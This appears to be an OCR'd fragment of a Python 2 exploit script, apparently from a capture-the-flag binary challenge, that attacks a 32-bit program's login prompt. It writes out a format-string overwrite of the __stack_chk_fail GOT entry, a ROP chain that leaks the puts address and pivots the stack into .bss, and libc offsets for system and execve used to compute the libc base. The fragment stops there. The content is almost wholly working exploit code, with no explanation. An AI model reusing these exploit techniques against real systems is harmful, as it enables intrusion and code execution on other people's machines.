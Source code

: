```
   
    read_buff_addr = 0x0804862B
   
    check_stack_fail_got = 0x804A014
   
    bss_addr = 0x0804a000 + 0xe20
    leave_ret = 0x08048715
    pop_ebp_ret = 0x0804871f #: pop ebp ; ret
   
    username = ""
    #username += 'bbbb'
    username += l32(check_stack_fail_got)
    username += "a"*0x4C
    #username += "bbbb"
    username += gen_rop_data(puts_plt, [puts_got])
    username += gen_rop_data(read_buff_addr, [bss_addr, 0x01010101])
    username += l32(pop_ebp_ret) + l32(bss_addr)
    username += l32(leave_ret)
    #username += gen_rop_data(puts_plt, [puts_got+4])
   
   
    print hex(len(username)), hex(0xd6 - 0x5c - 4)
    #username = username.ljust(0xd6 - 0x5c - 4, 'a')
   
    #username += "%s:%s.%p.%p.%p.%p.%p"# + "%p."*4
    #username += "%x.".ljust(8, '-')*10
    #username += "aa:"
    username = username.ljust(0xc0, 'a')
    username += 'a'*(0x66-0x43)
    username += "%9$hhn.".ljust(10, '-')
    #username += "%9$p.".ljust(10, '-')
   
    username = username.ljust(0x100-1, 'a')
   
    password = ""
    password += 'w' * 0x40
   
    io.read_until(":")
    io.writeline(username)
    io.read_until(":")
   
    #io.gdb_hint()
    io.writeline(password)
   
    io.read_until("")
    io.read_until("Login successful!n")
   
    io.read_until("n")
    data = io.read_until("n")
    print data
    puts_addr = l32(data[:4])
   
    offset_system = 0x3e800
    offset_execve = 0xB59F0
   
    #"""
    #remote
    offset_system = 0x3fe70
    offset_puts                = 0x64da0
    offset_execve = 0xB4EA0
    #"""
   
    libc_base = puts_addr - offset_puts
```